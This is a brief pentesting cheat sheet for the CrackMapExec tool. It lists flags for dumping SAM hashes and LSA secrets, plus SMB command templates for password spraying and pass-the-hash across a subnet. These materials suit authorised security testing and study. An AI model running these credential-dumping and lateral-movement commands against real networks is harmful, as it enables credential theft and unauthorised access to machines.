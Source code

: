 ```yaml
---
title: CRACKMAPEXEC
summary: A swiss army knife for pentesting networks.
description: A swiss army knife for pentesting networks.
---
```


**[https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)**

## CRACKMAPEXEC Flags


 > 
 > **<font color=red>--sam</font>**</br>
 > Dump SAM hashes.
 > 
 > **<font color=red>--lsa</font>**</br>
 > Dump LSA Secrets.

## CRACKMAPEXEC Pass the Password


 > 
 > **<font color=red>crackmapexec smb</font> \[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-d</font> \[TARGET_DOMAIN\] <font color=red>-u</font> \[mySamName\] <font color=red>-p</font> \[myUserPassword\]**</br>
 > Pass the Password around the network to find pwnable machines.

![tool-crackmapexec-example.png](../attachments/tool-crackmapexec-example.png)

## CRACKMAPEXEC Pass the Hash (NT)


 > 
 > **<font color=red>crackmapexec smb </font>\[TARGET_NETWORK_ADDRESS\]<font color=red>/</font>\[TARGET_CIDR\] <font color=red>-u</font> \[mySamName\] <font color=red>-H</font> \[myUserNTHASH\] <font color=red>--local-auth</font>**</br>
 > Pass the Hash attack (NT Hash) around the network to find vulnerable machines.
